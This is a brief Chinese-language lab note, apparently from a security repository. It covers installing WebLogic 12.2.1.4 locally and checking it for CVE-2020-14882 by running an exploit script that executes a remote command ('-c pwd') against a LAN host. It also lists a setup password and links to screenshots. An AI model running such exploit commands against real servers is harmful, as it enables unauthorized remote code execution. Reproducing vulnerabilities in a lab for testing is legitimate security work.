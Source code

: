 安装(jdk版本貌似需要1.8)
```
java -jar fmw_12.2.1.4.0_wls_lite_generic.jar
```

![image-20201210175156152](image/image-20201210175156152.png)

![image-20201210175220078](image/image-20201210175220078.png)

![image-20201210175317999](image/image-20201210175317999.png)

口令

admin123.com

```
python CVE-2020-14882_ALL.py -c pwd -u http://192.168.1.250:7001/
```



使用脚本进行检测

![image-20201211093717851](image/image-20201211093717851.png)